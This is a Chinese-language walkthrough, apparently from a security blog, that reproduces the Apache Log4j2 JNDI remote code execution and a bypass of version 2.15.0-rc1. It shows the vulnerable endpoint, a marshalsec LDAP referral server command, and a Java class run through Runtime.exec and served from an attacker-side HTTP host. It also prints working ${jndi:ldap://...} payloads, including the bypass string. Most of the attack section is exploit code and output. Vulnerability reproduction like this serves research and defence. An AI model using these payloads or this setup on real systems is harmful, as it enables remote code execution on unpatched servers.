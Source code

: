 ```yaml
---
layout: about
category: about
wrench: 2021-12-28
toc: true
Researchname: Apache Log4J RCE复现历程
desc: 「Apache Log4j2」
author: Bin4xin
permalink: /about/Apache-Log4j-RCE-WalkThrough/
---
```


## [Apache Log4j-v2.x-x RCE](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/ApacheLog4j)

> 影响版本：
>
> Apache Log4j 2.x <= 2.15.0-rc1

### Apache Log4j 2.x < 2.15.0-rc1 RCE

#### 环境准备

- 标题仓库中demo.jar(更接近实际渗透环境)
- 或者[<del>idea代码直接调试</del>](https://github.com/tangxiaofeng7/apache-log4j-poc/)
  - *Tips:2021-12-21更新*：
  - 原仓库作者已删除，我这里仓库重新上传了一份，[apache-log4j-poc](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/ApacheLog4j/apache-log4j-poc)

```
[apache-log4j-poc]-git:(main)>git remote -v
origin	https://github.com/tangxiaofeng7/apache-log4j-poc.git (fetch)
origin	https://github.com/tangxiaofeng7/apache-log4j-poc.git (push)
```

> 值得注意的是：
> 
> @apache-log4j-poc仓库中的截图poc代码为缺省`127.0.0.1`，我本地并未成功，需调整为网卡监听局域网地址如`192.168.x.x`

- JDK版本11以下，我的测试版本如下：

```bash
> java -version
java version "1.8.0_181"
Java(TM) SE Runtime Environment (build 1.8.0_181-b13)
Java HotSpot(TM) 64-Bit Server VM (build 25.181-b13, mixed mode)
```

#### 分析环境

把demo.jar拉到jd-gui中反编译：

- `com.example.log4j2_rce.Log4j2RceApplication`代码如下所示：

```java
@PostMapping({"/hello"})
public String hello(String payload) {
    System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
    System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
    logger.error("{}", payload);
    logger.info("{}", payload);
    logger.info(payload);
    logger.error(payload);
    return "ok";
}
```

访问路由为hello，post`payload`参数；

#### 尝试

```bash
# 启web
$ java -jar demo.jar
  .   ____          _            __ _ _
 /\\ / ___'_ __ _ _(_)_ __  __ _ \ \ \ \
( ( )\___ | '_ | '_| | '_ \/ _` | \ \ \ \
 \\/  ___)| |_)| | | | | || (_| |  ) ) ) )
  '  |____| .__|_| |_|_| |_\__, | / / / /
 =========|_|==============|___/=/_/_/_/
 :: Spring Boot ::        (v2.1.3.RELEASE)
 ···
```

直接访问加上payload进行攻击：

```bash
# 启LDAP服务：
$ java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://192.168.3.64/#dnslog"

# 启http：
$ cat dnslog.java
import java.lang.Runtime;
import java.lang.Process;

public class dnslog {
	static {

		try{
	 	Runtime rt = Runtime.getRuntime();
	 	String[] commands = {"open","/System/Applications/Calculator.app"};
	 	Process pc = rt.exec(commands);
	 	pc.waitFor();
	 	}catch (Exception e) {
	 	//no
		}

	}
}
$ javac dnslog.java
$ python3 -m http.server 80
Serving HTTP on :: port 80 (http://[::]:80/) ...
```

![log4j_poc_success.png](https://s2.loli.net/2021/12/15/ULolm84r2h5yeJS.png)

### Apache Log4j 2.x >= 2.15.0-rc1 RCE

#### 环境准备

- 快速开始：
- 修改[idea代码直接调试apache-log4j-poc](https://github.com/Bin4xin/bigger-than-bigger/blob/master/CoVV/ApacheLog4j/apache-log4j-poc/pom.xml)
代码版本为`<version>2.15.0-rc1</version>`

```xml
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <!--<version>2.14.1</version>-->
    <version>2.15.0-rc1</version>
</dependency>
    <!-- https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-api -->
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-api</artifactId>
    <!--<version>2.14.1</version>-->
    <version>2.15.0-rc1</version>
</dependency>
```

- 我这里是下载好的[Log4j 2.15.0-rc1](https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc1)用maven编译好后本地安装到仓库，所以不会报错；
  - [点击这里了解更多关于MVN安装到本地](https://www.cnblogs.com/duguangming/p/10955124.html)

尝试payload运行控制台返回：`23:05:26.715 [main] ERROR log4j - ${jndi:ldap://192.168.3.64:1389/dnslog}`，貌似已经修复了；
但是我们经过手动添加一些选项配置仍然是可以绕过的：

- 添加[src/resources/log4j2.xml](https://github.com/Bin4xin/bigger-than-bigger/blob/master/CoVV/ApacheLog4j/apache-log4j-poc/src/resources/log4j2.xml)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration status="OFF" monitorInterval="30">
    <appenders>
        <console name="Console" target="SYSTEM_OUT">
            <PatternLayout pattern="%m{lookups}%n"/>
        </console>
    </appenders>

    <loggers>
        <root level="all">
            <appender-ref ref="Console"/>
        </root>
    </loggers>
</configuration>
```

- `<PatternLayout pattern="%m{lookups}%n"/>`开启lookup；
- 尝试打印info、debug之类的信息确定配置文件已加载；

```bash
logger.error("hello,error");
logger.info("hello,info");
logger.debug("hello,debug");
#输出如下：
hello,error
hello,info
hello,debug

Process finished with exit code 0
```

#### Bypass攻击

payload：

```
${jndi:ldap://127.0.0.1#.4ra1n.love:1389/badClassName}
```

具体的绕过以及RCE分析可参考[RCE](https://xz.aliyun.com/t/10689#toc-3)和[分析](https://xz.aliyun.com/t/10689#toc-4)；

![截屏2021-12-28 上午9.44.15.png](https://s2.loli.net/2021/12/28/SdgnR1A93FV5W6l.png)

## 限制

- 目前暂时只知道jdk高版本会报错：

```
[main] ERROR log4j - Reference Class Name: foo
```

这里本人没有测试，可以移步自行分析版本限制[bilibili @GCC酱_0ff1c1a1 Log4j2 漏洞风险演示与个人看法](https://www.bilibili.com/video/BV15Q4y1e7jZ)，也欢迎贡献本仓库。

## 代码及参考

- [【安全通报】Apache Log4j2 远程代码执行漏洞](https://nosec.org/home/detail/4917.html)
- [bilibili @GCC酱_0ff1c1a1 Log4j2 漏洞风险演示与个人看法](https://www.bilibili.com/video/BV15Q4y1e7jZ)
- [Apache Log4j2从RCE到RC1绕过](https://xz.aliyun.com/t/10649)
- [浅谈Log4j2之2.15.0版本RCE](https://xz.aliyun.com/t/10689)
- [点击这里了解更多关于MVN安装到本地](https://www.cnblogs.com/duguangming/p/10955124.html)
